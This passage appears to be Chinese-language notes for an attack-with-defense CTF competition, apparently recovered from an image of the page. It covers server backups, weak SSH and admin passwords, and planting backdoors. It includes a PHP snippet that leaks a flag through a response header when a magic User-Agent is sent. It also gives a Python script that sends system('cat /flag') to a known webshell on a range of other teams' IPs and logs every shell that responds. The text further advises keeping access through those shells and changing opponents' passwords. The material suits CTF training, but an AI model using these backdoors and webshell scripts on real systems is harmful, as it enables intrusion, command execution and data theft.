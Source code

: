   4. 备份 [/var/www/html]

      1. 可以用scp命令，也可用一些图形化的工具：Winscp，FileZilla，操作起来比较方便。

   5. 文件的快速上传下载

   6. 快速恢复

      1. 出现异常的情况下可以立即恢复到初始状态

   7. 弱口令 ssh 后台

      1. 弱口令的问题几乎是必考，比赛开始后，如果发现每个队伍的SSH账号密码都是一样的（某次比赛中都是phpcms、wordpress），需要立即修改口令，如果被其他队伍改了那就gg了。Web后台很有可能存在弱口令，一般都是admin/admin,admin/123456,test/test等等，同样需要立即修改，也可以修改其他队伍的后台口令，为本队所用，说不定可以利用后台getshell，比如十分常见的wordpress。不过有的比赛不允许修改后台口令，如果修改视为服务宕机，这样还是不要动口令的心思了。
      2. 修改自己的
      3. 利用他人的
      4. 在口令被修改前完成维持权限

   8. 预留后门

      1. 主要是思路，大概就是把getflag的条件写在配置文件，在header头做手脚。把getflag的命令写在配置文件，配个demo使用。在自己的浏览器改ua就能看见flag了。

         ```php
         <?php 
         echo 'hello';
         $flag = 'ss';
         if (@$_SERVER['HTTP_USER_AGENT'] == 'flag'){
         	header("thisisflag:$flag"); 
         }
         ```

         ​

      2. 在维护的服务器上，很有可能已经预留了一个或多个后门，比如一句话木马，这个是送分题，可以利用这个漏洞迅速打一波，还可以视情况“搅屎”，利用这个漏洞一直维持权限，每轮都得分（后面细说）。
         将服务器中web目录下载到本地，利用D盾扫描，一般就可以发现预留后门。发现后门后，第一时间删除，同时利用这个漏洞发起第一波攻击，如果利用菜刀连，显然不够优雅，还没连完，人家估计都删的差不多了，因此这个漏洞虽然是送分，但拼的是手速，因此得提前准备好脚本，配置一下其他队伍地址、shell路径和密码，就可以进行攻击，flag记录在firstround_flag.txt中。

         ```python
         #coding=utf-8
         import requests
         url="http://192.168.71."
         url1=""
         shell="/Upload/index.php"
         passwd="abcde10db05bd4f6a24c94d7edde441d18545" 
         port="80"
         payload = {passwd: 'system(\'cat /flag\');'}
         f=open("webshelllist.txt","w") 
         f1=open("firstround_flag.txt","w")
         for i in [51,52,53,11,12,13,21,22,23,31,32,33,41,42,43,71,72,73,81,82,83]: 
             url1=url+str(i)+":"+port+shell
             try:
                 res=requests.post(url1,payload,timeout=1)
                 if res.status_code == requests.codes.ok:
                     print url1+" connect shell sucess,flag is "+res.text
                     print >>f1,url1+" connect shell sucess,flag is "+res.text
                     print >>f,url1+","+passwd
                 else:
                     print "shell 404"
             except:
                 print url1+" connect shell fail"
         		